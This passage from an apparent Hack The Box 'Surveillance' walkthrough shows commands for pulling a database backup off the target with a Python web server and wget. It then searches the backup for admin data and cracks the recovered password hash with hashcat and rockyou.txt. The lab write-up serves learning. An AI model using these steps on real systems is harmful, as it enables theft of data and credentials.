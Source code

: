 ```bash
# on victim machine
# in directory of backup .zip file
python3 -m http.server

# on attacker machine
wget http://surveillance.htb:8000/surveillance--2023-10-17-202801--v4.4.14.sql.zip

mv surveillance--2023-10-17-202801--v4.4.14.sql.zip backup.zip
```

Now, let’s unzip the zip file on our attacker machine

```bash
unzip backup.zip
```

Luckily, there was no password. I will then rename the inflated file to `backup` for simplicity sake

The file is quite long, so I searched for potentially interesting keywords such as `user` and `admin`. After searching for this, I found the below information

![Untitled](Untitled%203.png)

After receiving a hash, it’s time to attempt to crack it! My go to is Hashcat. For hash cracking, I recommend using your host OS or a dedicated machine with a graphics card. This is not necessary for HTB machines but I like to do it to be in the habit of utilizing my GPU for cracking as it’s significantly faster.

Thus, I copy the hash and save it to a file called `hashes.txt`

I then run the below command:

```powershell
# name of the executable, path to hashes file, path to wordlist file, -O for optimization
hashcat.exe hashes.txt rockyou.txt -O
```

I run this as hashcat can sometimes automatically identify the hash, if not, it will tell you which hash-mode it thinks the hash is

![Untitled](Untitled%204.png)
